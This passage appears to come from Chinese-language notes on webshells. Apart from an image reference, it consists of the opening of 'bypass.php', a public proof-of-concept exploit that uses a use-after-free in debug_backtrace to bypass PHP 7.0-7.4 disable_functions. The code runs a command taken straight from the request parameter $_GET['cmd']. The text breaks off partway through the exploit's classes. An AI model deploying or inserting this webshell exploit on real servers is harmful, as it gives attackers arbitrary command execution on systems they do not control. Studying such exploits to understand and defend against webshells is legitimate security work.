 ![](webshell原理.assets/25.png)

#### bypass.php

```php
<?php

# PHP 7.0-7.4 disable_functions bypass PoC (*nix only)
#
# Bug: https://bugs.php.net/bug.php?id=76047
# debug_backtrace() returns a reference to a variable 
# that has been destroyed, causing a UAF vulnerability.
#
# This exploit should work on all PHP 7.0-7.4 versions
# released as of 30/01/2020.
#
# Author: https://github.com/mm0r1

pwn($_GET["cmd"]);

function pwn($cmd) {
    global $abc, $helper, $backtrace;

    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace(); # ;)
            if(!isset($backtrace[1]['args'])) { # PHP >= 7.4
                $backtrace = debug_backtrace();
            }
        }
    }

    class Helper {
```